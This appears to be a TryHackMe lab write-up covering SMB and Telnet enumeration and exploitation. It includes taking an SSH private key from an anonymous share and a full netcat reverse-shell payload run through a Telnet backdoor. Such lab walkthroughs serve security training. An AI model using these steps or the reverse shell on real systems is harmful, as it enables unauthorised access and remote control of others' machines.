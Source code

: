 # Activity performed as part of Network Services Room

- **Phase 1(Enumerating SMB)** :

1. Start the Attack Machine, LAB MACHINE available.
2. Run nmap to perfrom basic enumeration on the target/lab machine. Execute "nmap -sV -vv <IP>".
3. Run enum4linux to perform enumeration on SMB services as we are currently focused on SMB. Execute "ennum4linux -a <IP>" provides all the basic information regarding the target as part of the enumeration.

- **Phase 1(Exploiting SMB)** :

According to the SMB enumeration there is a misconfiguration that can help us in gaining access. As we see that "profiles" share can be accessed according to the enum4linux enumeration this the possible misconfiguration that allows Anonymous user login.
1. Execute "smbclient //<IP>/profiles -U Anonymous" command, User should be able to access the profiles share through a prompt.
2. Execute "ls" command, to list all the files listed in the share.

Among the files listed, one of the file would provide additional informaation on how to login as a user.
1. Execute "more <file_name>" command, to view the file content.

According to the file content the user John Cactus has ssh login enabled since the organization start to introduce WFH.
1. Execute "cd .ssh" command to navigate to .ssh directory present in the share.
2. Execute "ls" command to list all the directories and files present in .shh directory.

Directory contains private key and public key of RSA which can be utilizted to login through ssh. Additionally there is an authorize file.
1. Execute "mget <file_name>" and "mget <file_name>.pub" command, to get the files(public key and private key) to the local machine.
2. Execute "chmod 600 <file_name>" command, to change the permissions on the private key file.

Since, We now have both the files(Public key and Private key). We can login as John Cactus to the target machine and access the target machine. The username can be found in the public key file.
1. Executed "ssh <file_name> <username>@<IP>" command, to login to target machine as the user John Cactus.
2. Execute "ls" command to view the list of files and directories in the pwd.
3. Execute "cat smb.txt" command, to retrive the flag present in the file.

- **Phase 2(Enumerating Telnet)** :
1. Execute the command "nmap -sS -A -vv -p- <IP> > <output_file>", to get the information about the target IP. Command TCP SYN scan, Aggresive scan, port scan of all 65535 ports with level 2 verbosity.
2. Execute the command "nmap -sS -A -vv <IP>", to perform port scan on all the starndard ports of the target.

- **Phase 2(Exploiting Telnet)** :
1. Execute the command "telnet <IP> <Port>", to get connected with the target machines telnet service.

As the connection povides a footholding on the target machine. We can try out few things which can help us analyze how things are going. Accoring to information after the connection. The current port is a Backdoor used by Skidy. Following are few command which can be used .HELP, .RUN <command>, .EXIT . Upon trying to execute command using the .RUN command no output was provided on the server. In order to check its getting executed as system commands here are few things we can check.
1. Execute the command "sudo tcpdump ip proto \\icmp -i tun0"/"sudo tcpdump ip proto \\icmp -i ens5"(Your VM) or (Attackbox). To initailizea listener on the local machine.
2. Execute the command "ping <[local THM ip]/[Your VM]> -c 1", to ping the local machine from the target machine which is running a telnet service.

Upon verifying that req-res is coming up on the local machine. Continue with Exploitation.
In order to get a reverse shell on the local machine. We are using msfvenom to create a payload that can provide us the reverse shell on a specified port.
1. Execute the command "msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip]/[attack box IP] lport=4444 R", to generate a payload that can be executed on the target and receive reverse shell over the port 4444.

Explination of the above command: 
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

2. Execute the command "nc -lvnp 4444", to listen to the port on the local machine.
3. Execute the command ".RUN <payload>", to get a reverse shell on the listening port.
Payload used as part of the activity: "mkfifo /tmp/qnnue; nc 10.10.140.29 4444 0</tmp/qnnue | /bin/sh > tmp/qnnue 2>&1; rm /tmp/qnnue"

mkfifo /tmp/qnnue -> creates a new named pipe at /tmp/qnnue
nc 10.10.140.29 4444 0</tmp/qnnue -> connects to IP and sends contents of /tmp/qnnue as stdin
/bin/sh > tmp/qnnue 2>&1 -> opens terminal shell and redirects output/errors to tmp/qnnue 
rm /tmp/qnnue -> It deletes the file /tmp/qnnue from the system.

Navigate through the file structure to get the flag.



